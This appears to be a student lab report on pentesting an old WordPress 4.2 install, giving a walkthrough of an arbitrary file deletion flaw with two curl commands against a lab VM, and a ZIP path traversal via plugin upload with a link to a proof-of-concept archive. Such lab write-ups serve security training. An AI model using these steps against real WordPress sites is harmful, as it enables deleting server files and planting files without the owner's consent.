 # Project 7 - WordPress Pentesting

Time spent: 3 hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

### 1. CVE-2018-20714 Arbitrary File Deletion
  - [ ] Summary: Post thumbnail can be set to an arbitrary path, which is deleted when the post is deleted. Requires author account.
    - Vulnerability types: Aribtary file deletion
    - Tested in version: 4.2
    - Fixed in version: 4.9.7
  - [ ] GIF Walkthrough: ![](2020-10-18_22-34-52.gif)
  - [ ] Steps to recreate: 
     1. Upload a new media
     2. Note the media ID
     3. Go to http://wpdistillery.vm/wp-admin/post.php?post={mediaId}&action=edit and view the page source to get the post wpNonce
     4. Make the following post request to update the thumbnail with the path to the file you wish to delete.
     ```
     curl -v 'http://wpdistillery.vm/wp-admin/post.php?post=10' -H 'Cookie: {validSessionCookie}' -d 'action=editattachment&_wpnonce={wpNonce}&thumb={pathToFileToDelete}'
     ```
     5. Go back to the edit post page and find the delete post wpNonce value and note it down.
     6. Post the following URL with the delete post nonce.
     ```
     curl -v 'http://wpdistillery.vm/wp-admin/post.php?post=10' -H 'Cookie: {validSessionCookie}' -d 'action=delete&_wpnonce={deleteNonce}'
     ```
  - [ ] Affected source code:
    - [post.php](https://core.trac.wordpress.org/browser/tags/4.2/src/wp-includes/post.php?rev=32282)
### 2. Path Traversal in Unzipping
  - [ ] Summary: Malicious paths may be included in a compressed ZIP archive that is unpacked to the server as a result of using PHP built in ZipArchive library. This can result in files being unpacked to unintended directories as long as the web server has permission. Reference: https://hackerone.com/reports/205481
    - Vulnerability types: ZIP path traversal
    - Tested in version: 4.2
    - Fixed in version: 4.2.16
  - [ ] GIF Walkthrough: ![](zip traversal.gif)
  - [ ] Steps to recreate: 
     1. Download POC ZIP file (created by Alex Chapman). Link: https://github.com/pydlv/wpvuln/blob/main/zip_poc.zip
     2. Go to install a plugin and upload the ZIP file.

